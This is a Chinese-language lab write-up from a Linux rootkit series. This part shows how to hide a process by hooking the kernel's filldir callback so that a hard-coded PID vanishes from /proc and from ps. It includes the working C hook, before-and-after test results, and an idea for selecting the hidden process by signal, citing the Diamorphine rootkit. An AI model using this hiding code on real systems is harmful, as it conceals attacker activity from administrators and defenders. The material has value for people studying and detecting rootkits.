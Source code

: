 ```yaml
---
category: Sec
title: Linux Rootkit 实验 | 00023 Rootkit 基本功能实现x隐藏进程
---
```


# Linux Rootkit 实验 | 00023 Rootkit 基本功能实现x隐藏进程

## 实验说明

本次实验将初步实现 rootkit 的基本功能：

- 阻止其他内核模块加载
- 提供 root 后门
- 隐藏文件
- 隐藏进程
- 隐藏端口
- 隐藏内核模块

本次实验基于 0001 实验中学习的挂钩技术。

注：由于本次实验内容过多，故分为`00020`到`00025`六个实验报告分别讲解。

**本节实现“隐藏进程”功能**

## 实验环境

```
uname -a:
Linux kali 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux

GCC version:6.1.1
```

上述环境搭建于虚拟机，另外在没有特殊说明的情况下，均以 root 权限执行。

**注：后面实验参考的是4.10.10的源码**

## 实验过程

### 隐藏进程

“Linux 上纯用户态枚举并获取进程信息，/proc 是唯一的去处。所以，对用户态隐藏进程，我们可以隐藏掉/proc 下面的目录，这样用户态能枚举出来进程就在我们的控制下了。”

我们只需要把`fake_filldir`修改一下，改为匹配进程号即可：

{% highlight c %}
int
fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type)
{
    char *endp;
    long pid;

    // 把字符串变成长整数。
    pid = simple_strtol(name, &endp, 10);

    if (pid == SECRET_PROC) {
        // 是我们需要隐藏的进程，直接返回。
        printk("Hiding pid: %ld", pid);
        return 0;
    }
    // 不是需要隐藏的进程，交给真的 ``filldir`` 填到缓冲区里。
    return real_filldir(ctx, name, namlen, offset, ino, d_type);
}
{% endhighlight %}

测试结果如下：

图片中一个 shell 的`PID`是`3033`。在没有加载模块之前，`ps`可以看到该进程。在加载模块之后，`ps`中无该进程：

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-18.png)

卸载模块后，进程重新在`ps`中出现：

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-19.png)

## 实验问题

【问题一】

本实验中，我们是把进程号写死在代码里，这样十分不方便。很明显，在实际渗透过程中，我们需要隐藏的进程的进程号只有在运行时才知道。一种可以借鉴的改进思路是：新设定一个信号，模块运行时，我们给哪个进程发该信号，那个进程就被隐藏起来。这是 [m0nad/Diamorphine](https://github.com/m0nad/Diamorphine) 这个 rootkit 的设计。未来我会写一篇文章专门分析这个 rootkit，它的其他思路也是很有意思的。
